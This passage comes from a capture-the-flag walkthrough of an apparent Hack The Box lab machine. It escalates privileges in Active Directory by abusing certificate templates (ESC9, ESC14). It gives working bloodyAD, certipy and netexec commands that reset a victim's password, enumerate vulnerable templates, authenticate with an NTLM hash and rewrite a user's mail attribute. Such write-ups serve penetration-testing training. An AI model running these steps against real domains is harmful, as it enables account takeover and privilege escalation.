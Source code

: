Abuse this configuration using
<br/><br/>
```python
bloodyAD --host dc01.domain.htb -d domain.htb -u atacker -p :hash set password victim newpassword
```
<br/><br/>
![image.png]({{ '/assets/images/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9_image_19.png' | relative_url }})
<br/><br/>
`A.carter` is member of `IT support` group which holds `GenericAll` privileges over the `staff access certificate`
<br/><br/>
![image.png]({{ '/assets/images/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9_image_20.png' | relative_url }})
<br/><br/>
It is curious that this template contains `d.baker` ; this might be vulnerable to some `ESC` technique due to a clear misconfiguration
<br/><br/>
![image.png]({{ '/assets/images/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9_image_21.png' | relative_url }})
<br/><br/>
Let’s go through this step by step. First, let’s try to obtain all possible privileges over the users the have owned
<br/><br/>
![image.png]({{ '/assets/images/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9_image_22.png' | relative_url }})
<br/><br/>
Find `ESC` type vulnerabilities using `certipy` tool
<br/><br/>
```python
certipy find -u d.baker -p 'hash' -dc-ip ip
```
<br/><br/>
![image.png]({{ '/assets/images/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9_image_23.png' | relative_url }})
<br/><br/>
It says that d.baker might be vulnerable to `ESC9` but to perform this attack we need to be able to include the `UPN` in the `SAN` of the target user, and this configuration is not present, we only can include email in the `SAN` . Even so, now we are aware that this certification template has no security extension flag. We can also notice that this certificate template has `SubjectAltRequireEmail` set as a valid name option
<br/><br/>
![image.png]({{ '/assets/images/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9_image_24.png' | relative_url }})
<br/><br/>
Then, use the following command to discover that the `altSecurityIdentity` property is used to identify `hbrowm` user. 
<br/><br/>
```python
 netexec ldap scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --query "(sAMAccountName=h.brown)" ""
```
<br/><br/>
This property is related with ESC14 and we are going to see a lot of it on this machine
<br/><br/>
You can see more information about it here:
<br/><br/>
https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9
<br/><br/>
![image.png]({{ '/assets/images/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9/d0bd1f30-699b-4cb4-8096-51966443e47d-export-f2fed7e5-8f3c-486d-8c98-5912154c70d9_image_25.png' | relative_url }})
<br/><br/>
With all the information gathered so far, we can perform an attack to escalate to h.brown user
<br/><br/>
```python
bloodyAD --host dc01.domain.htb -d domain.htb -u a.carter -p 'password' set object 'user-owned' mail -v 'target@mail.htb'
```